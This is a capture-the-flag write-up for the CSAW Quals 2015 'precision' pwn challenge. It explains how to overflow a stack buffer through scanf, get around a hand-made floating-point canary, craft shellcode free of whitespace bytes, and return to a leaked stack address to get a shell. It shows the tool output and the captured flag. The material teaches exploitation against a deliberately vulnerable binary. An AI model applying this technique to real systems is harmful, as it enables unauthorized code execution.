 # CSAW QUALS 2015: precision-100

**Category:** Pwn
**Points:** 100
**Solves:** 272
**Description:**

> nc 54.210.15.77 1259
>
> Updated again!
>
> [precision_a8f6f0590c177948fe06c76a1831e650](precision_a8f6f0590c177948fe06c76a1831e650)


## Write-up

by [polym](https://github.com/abpolym)

This writeup is loosely based on following writeups:

* <https://ctf-team.vulnhub.com/csaw-quals-2015-precision/>
* <https://www.youtube.com/watch?v=0TWlW5MBnKE>
* <http://kikisctf.blogspot.hr/2015/09/csaw-2015-quals-exploitable-100.html>
* <http://blog.isis.poly.edu/2015/09/28/csaw-ctf-precision.html>

### Meta

Vulnerability:

* Stack Overflow via `__isoc99_scanf`
* Self-made canary

We are given an 32 bit ELF for Linux i386:

```bash
$ file precision_a8f6f0590c177948fe06c76a1831e650
precision_a8f6f0590c177948fe06c76a1831e650: ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=929fc6f283d6f6c3c039ee19bc846e927103ebcd, not stripped
```

Running it:

```bash
$ ./precision_a8f6f0590c177948fe06c76a1831e650
Buff: 0xff801988
hello
Got hello
```

Sweet, a stack address!

We can provide input to the binary, lets test it for a stack overflow vulnerability:

```bash
$ python -c 'print "A"*512' | tee in | ./precision_a8f6f0590c177948fe06c76a1831e650
Buff: 0xffd7b798
Nope
```

So it looks like we did trigger something else.

Our next step is looking at the available functions in [radare2](https://github.com/radare/radare2):

```bash
$ r2 precision_a8f6f0590c177948fe06c76a1831e650 
 -- Don't look at the code. Don't look.
[0x08048420]> aa
[0x08048420]> afl | sort -k1 | column -t
0x0804837c  35   3  sym._init
0x080483b0  16   2  sym.imp.printf
0x080483c0  16   2  sym.imp.puts
0x080483d0  16   2  loc.imp.__gmon_start__
0x080483e0  16   2  sym.imp.exit
0x080483f0  16   2  sym.imp.__libc_start_main
0x08048400  16   2  sym.imp.setvbuf
0x08048410  16   2  sym.imp.__isoc99_scanf
0x08048420  34   1  entry0
0x08048450  4    1  sym.__x86.get_pc_thunk.bx
0x08048460  42   4  sym.deregister_tm_clones
0x08048490  55   4  sym.register_tm_clones
0x080484d0  30   3  sym.__do_global_dtors_aux
0x080484f0  45   4  sym.frame_dummy
0x0804851d  187  4  sym.main
0x080485e0  97   4  sym.__libc_csu_init
0x08048650  2    1  sym.__libc_csu_fini
0x08048654  20   1  sym._fini
```

Looks like the binary consists of only `main`.

NOTE: `imp` are imported functions from a library and between `sym.__libc_csu_init` and `sym.frame_dummy` there is only one function, `main`.

We decompile it using `radare2`'s `pdf` command:

![](./main.png)

If we reverse the binary, we get [this pseudo C-code](./precision-pseudo.c).

The main things to notice here are two things:

* There is a self-made canary that loads static 8 byte as a floating number from `0x8048690` to `esp+0x98` before calling `__isoc99_scanf` and compares the values after the call
* Since there essentially is no limit of characters that we can provide as input, we can smash the stack - a classic stack overflow vulnerability

To get a shell, we have to do following steps:

* Set the right bytes at `esp+0x98`
* Find or craft shellcode that works for `__isoc99_scanf` - e.g. `pwntool`'s [`shellcraft.i386.linux.sh()`](http://pwntools.readthedocs.org/en/latest/shellcraft/i386.html#pwnlib.shellcraft.i386.linux.sh) won't work, since it contains a `0xb`, which is a whitecharacter and triggers `__isoc99_scanf` to stop reading!
* Find the right offset to get control over `EIP` and overwrite it with the leaked stack address (in our case the address of our buffer)

NOTE: To craft the shellcode, I pasted the hex representation of my shellcode (`xxd -p in` , then copy only the shellcode part) to [ODA](https://www.onlinedisassembler.com/odaweb/) and searched for needed opcodes and instructions in the given binary using `radare2`.

[This python code](./solve.py) does the job:

```bash
$ python solve.py 
[+] Started program './precision_a8f6f0590c177948fe06c76a1831e650'
[*] Leaked Stack Addr: ffcb40f8
[*] Enjoy your shell :)!
[*] Switching to interactive mode
$ ls flag
flag
$ cat flag
flag{1_533_y0u_kn0w_y0ur_w4y_4r0und_4_buff3r}
```

The flag is `flag{1_533_y0u_kn0w_y0ur_w4y_4r0und_4_buff3r}`!

If you need more information or futher clarification, read the other writeups, look at the documented code or debug the binary with the exploit code `in` step by step in [gdb-peda](https://github.com/longld/peda). Or just [create an issue](https://github.com/ctfs/write-ups-2015/issues) explaining what exactly you don't understand!

## Other write-ups and resources

* <https://ctf-team.vulnhub.com/csaw-quals-2015-precision/>
* <http://www.securifera.com/blog/2015/09/22/csaw-2015-precision/>
* <https://www.whitehatters.academy/csaw2015-quals-precision-exploit-100/>
* <http://blog.init-labs.org/2015/09/22/csaw-pwn-100-write-up/>
* <http://kikisctf.blogspot.hr/2015/09/csaw-2015-quals-exploitable-100.html>
* <http://blog.isis.poly.edu/2015/09/28/csaw-ctf-precision.html>
* <https://github.com/ByteBandits/writeups/blob/master/csaw-quals-2015/pwn/precision/sudhackar/README.md>
* <https://www.youtube.com/watch?v=0TWlW5MBnKE>
* <https://github.com/aweinstock314/aweinstock-ctf-writeups/blob/master/csaw_quals_2015/pwn100_precision_sploit.py>
